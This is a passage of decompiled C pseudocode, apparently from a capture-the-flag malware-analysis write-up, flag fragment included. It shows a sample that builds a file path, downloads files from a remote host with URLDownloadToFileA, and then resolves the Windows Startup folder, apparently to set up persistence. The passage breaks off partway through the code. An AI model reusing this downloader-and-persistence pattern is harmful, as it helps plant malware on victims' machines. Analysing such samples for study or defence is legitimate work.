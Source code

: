 ```c
  *v17 = 0;
  v19 = v41;
  do
  {
    if ( !*v19 )
      break;
    ++v19;
    --v18;
  }
  while ( v18 );
  v20 = 260 - v18;
  if ( v18 )
  {
    v21 = &v41[v20];
    v22 = 260 - v20;
    if ( v20 != 260 )
    {
      v23 = 2147483646;
      v24 = (char *)("\\2.txt" - v21);
      do
      {
        if ( !v23 )
          break;
        v25 = v21[(_QWORD)v24];
        if ( !v25 )
          break;
        *v21 = v25;
        --v23;
        ++v21;
        --v22;
      }
      while ( v22 );
    }
    v26 = v21 - 1;
    if ( v22 )
      v26 = v21;
    *v26 = 0;
  }
  URLDownloadToFileA(0, "https://10.10.70.114/2.txt", v41, 0, 0);
  URLDownloadToFileA(0, "https://10.10.70.114/L3AK{AV_evasion_is_easy", v41, 0, 0);
  result = SHGetFolderPathA(0, 7, 0, 0, v43);
  if ( result >= 0 )
  {
    v28 = 260;
    v29 = v40;
    do
    {
      if ( v28 == -2147483386 )
        break;
      v30 = v29[v43 - v40];
      if ( !v30 )
        break;
      *v29++ = v30;
      --v28;
    }
    while ( v28 );
    v31 = v29 - 1;
    if ( v28 )
      v31 = v29;
    v32 = 260;
    *v31 = 0;
    v33 = v40;
    do
```